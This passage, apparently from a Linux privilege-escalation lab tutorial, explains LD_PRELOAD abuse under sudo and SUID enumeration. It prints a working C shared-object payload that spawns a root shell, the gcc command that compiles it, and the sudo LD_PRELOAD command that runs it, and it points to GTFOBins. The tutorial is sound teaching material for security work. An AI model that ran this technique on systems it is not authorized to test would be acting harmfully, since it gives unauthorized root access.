 The steps of this privilege escalation vector can be summarized as follows;

1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows;

```cpp
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}  
```

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

![](https://i.imgur.com/HxbszMW.png)  

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.

We need to run the program by specifying the LD_PRELOAD option, as follows;

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`

This will result in a shell spawn with root privileges.

![](https://i.imgur.com/1YwARyZ.png)

# Privilege Escalation: SUID
---
Much ofÂ LinuxÂ privilege controls rely on controlling the users and files interactions. This is done with permissions. By now, you know that files can have read, write, and execute permissions. These are given to users within their privilege levels. This changes with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.  
  
You will notice these files have an â€œsâ€ bit set showing their special permission level.  
  
`find / -type f -perm -04000 -ls 2>/dev/null`Â will list files that have SUID or SGID bits set.

![](https://i.imgur.com/fJEeZ4m.png)

A good practice would be to compare executables on this list with GTFOBins ([https://gtfobins.github.io](https://gtfobins.github.io/)). Clicking on the SUID button will filter binaries known to be exploitable when the SUID bit is set (you can also use this link for a pre-filtered listÂ [https://gtfobins.github.io/#+suid](https://gtfobins.github.io/#+suid)).
